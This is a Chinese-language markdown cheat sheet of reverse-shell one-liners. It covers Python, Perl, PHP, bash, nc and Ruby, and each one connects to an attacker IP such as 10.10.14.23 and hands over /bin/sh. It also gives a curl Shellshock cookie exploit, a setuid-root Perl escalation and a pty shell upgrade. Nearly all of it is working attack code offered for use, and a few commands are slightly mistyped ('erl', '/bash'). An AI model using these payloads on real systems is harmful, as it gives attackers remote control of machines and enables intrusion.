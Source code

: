 # 对shell的各种处理





## 一、反弹shell的各种姿势

- python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- perl

```perl
erl -e 'use Socket;$i="10.10.14.23";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- php

```php
<?php system('nc -e /bin/bash 192.168.1.8 4444')?>  //html版
    
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'    //内置语言版
```

- curl

```
`curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.23/4443 0>&1' http://10.10.10.56/cgi-bin/user.sh`
```

- bash

```
/bash -i >& /dev/tcp/10.10.14.23/4444 0>&1
```

- nc

```
nc -e /bin/sh 10.0.0.1 1234
```

- Ruby

```R
//依赖/bin/sh:
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

//不依赖：
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```





## 二、调取shell的各种方式

- perl

```perl
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

- python （获取交互式shell）

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```


